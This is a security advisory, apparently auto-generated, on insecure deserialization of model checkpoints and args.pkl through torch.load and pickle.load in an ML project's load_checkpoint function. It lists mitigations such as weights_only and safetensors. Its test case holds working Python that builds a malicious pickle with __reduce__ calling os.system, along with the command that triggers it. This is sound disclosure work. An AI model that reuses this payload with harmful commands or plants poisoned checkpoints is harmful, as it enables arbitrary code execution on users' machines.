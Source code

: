 - vulnerability name: Insecure Deserialization in Model Checkpoint Loading
- description: The application loads model checkpoints and training arguments from disk using `torch.load` and `pickle.load` in the `load_checkpoint` function within `/code/src/utils/utils.py`. These functions are vulnerable to insecure deserialization. A malicious actor could craft a malicious checkpoint file (`model-best.ckpt`, `model-curr.ckpt`) or arguments file (`args.pkl`) and replace the legitimate files in the checkpoint directory. When a user downloads and uses this malicious checkpoint (either pretrained or to resume training), arbitrary code embedded within the checkpoint file will be executed on their machine during the model loading process. The vulnerability can be triggered when `train.py` or `test.py` scripts are executed, as they both utilize the `load_checkpoint` function to load model states and configurations.
- impact: Arbitrary code execution on the user's machine. Successful exploitation could allow an attacker to gain full control over the user's system, potentially leading to data theft, malware installation, or further unauthorized activities.
- vulnerability rank: critical
- currently implemented mitigations: None. The project does not implement any specific measures to prevent insecure deserialization when loading model checkpoints.
- missing mitigations:
    - Input Validation: Implement integrity checks to verify the authenticity and integrity of checkpoint files before loading. This could include cryptographic signatures to ensure that the files originate from a trusted source and haven't been tampered with. However, this is complex to implement properly and doesn't fundamentally solve the deserialization issue.
    - Secure Deserialization: Migrate away from `pickle` for loading arguments and, if possible, for model states. For `torch.load`, consider using `torch.load(..., weights_only=True)` when loading model weights if applicable and if the PyTorch version is >= 1.12.0. For general data serialization, explore safer alternatives to `pickle` such as `safetensors` or JSON for configurations, ensuring that data is treated as data and not executable code during loading.
    - User Warnings: Provide prominent warnings in the documentation (e.g., README, usage instructions) about the security risks associated with downloading and using pre-trained models from untrusted sources. Advise users to only utilize checkpoints from verified and reputable sources.
- preconditions:
    - The user must download and attempt to use a maliciously crafted model checkpoint file (`model-best.ckpt`, `model-curr.ckpt`) or arguments file (`args.pkl`).
    - The malicious file must be placed in the directory where the application expects to find checkpoints, typically within the path specified by `--save_dir` and `--model_name` arguments, potentially overwriting or replacing legitimate checkpoint files.
- source code analysis:
    - The vulnerability exists in the `/code/src/utils/utils.py` file within the `load_checkpoint` function.
    - Step-by-step code analysis:
        1. The `load_checkpoint` function is called in `train.py` and `test.py` to load model checkpoints.
        2. Inside `load_checkpoint`, `torch.load` is used to load `model_state_dict` from `model-*.ckpt` files:
        ```python
        model_state_dict = torch.load(os.path.join(checkpoints_dir, 'model-'+suff+'.ckpt'), map_location=map_loc)
        ```
        `torch.load` with default settings (using `pickle` module) is vulnerable to insecure deserialization. If a malicious `model-*.ckpt` file is provided, it can execute arbitrary code during loading.
        3. Similarly, `torch.load` is used to load optimizer state from `optim-*.ckpt` files:
        ```python
        opt_state_dict = torch.load(os.path.join(checkpoints_dir, 'optim-'+suff+'.ckpt'), map_location=map_loc)
        ```
        This is also vulnerable to insecure deserialization if a malicious `optim-*.ckpt` file is provided.
        4. `pickle.load` is used to load training arguments from `args.pkl` file:
        ```python
        args = pickle.load(open(os.path.join(checkpoints_dir, 'args.pkl'), 'rb'))
        ```
        `pickle.load` is inherently insecure and can execute arbitrary code if a malicious `args.pkl` file is loaded.
    - Visualization: The attack flow is as follows:
        ```
        Attacker crafts malicious checkpoint files (model-*.ckpt, optim-*.ckpt, args.pkl)
        -> Attacker replaces legitimate checkpoint files in the repository or distribution
        -> User downloads the project and potentially the malicious checkpoints (e.g., via `git lfs pull` for pretrained models) or uses a project that was already compromised.
        -> User runs train.py or test.py, which calls load_checkpoint
        -> load_checkpoint uses torch.load and pickle.load to load the malicious files
        -> Insecure deserialization in torch.load and pickle.load triggers arbitrary code execution on the user's machine.
        ```
- security test case:
    1. **Setup:** Ensure you have the project environment set up as described in the README.md.
    2. **Malicious Payload Creation:** Create a malicious `args.pkl` file. You can use the following Python code to generate a malicious `args.pkl` file that executes `touch /tmp/pwned` when loaded:
        ```python
        import pickle
        import argparse
        import os

        class MaliciousArgs:
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',))

        # Create dummy args object to mimic the structure of original args.pkl
        parser = argparse.ArgumentParser()
        parser.add_argument('--dummy_arg', type=str, default='dummy_value')
        args = parser.parse_args([])
        args.__dict__.update({'dummy_arg': 'dummy_value', 'malicious_payload': MaliciousArgs()})

        with open('args.pkl', 'wb') as f:
            pickle.dump(args, f)
        ```
    3. **Replace `args.pkl`:** Navigate to the checkpoints directory of a model (e.g., if you are using the pretrained models, it would be `checkpoints/MODEL_NAME`). Replace the existing `args.pkl` file with the malicious `args.pkl` file created in the previous step.
    4. **Execute `test.py`:** Run the `test.py` script using a pretrained model name. For example:
        ```bash
        python src/test.py --model_name MODEL_NAME --eval_split test --root DATASET_PATH --save_dir ../checkpoints
        ```
        Replace `MODEL_NAME` with the name of the pretrained model you are testing and `DATASET_PATH` with the path to your Recipe1M dataset.
    5. **Verify Exploitation:** Check if the file `/tmp/pwned` has been created. If the file exists, it indicates that the malicious payload in `args.pkl` was executed during the model loading process, confirming the insecure deserialization vulnerability.
    6. **Cleanup:** Remove the `/tmp/pwned` file after testing.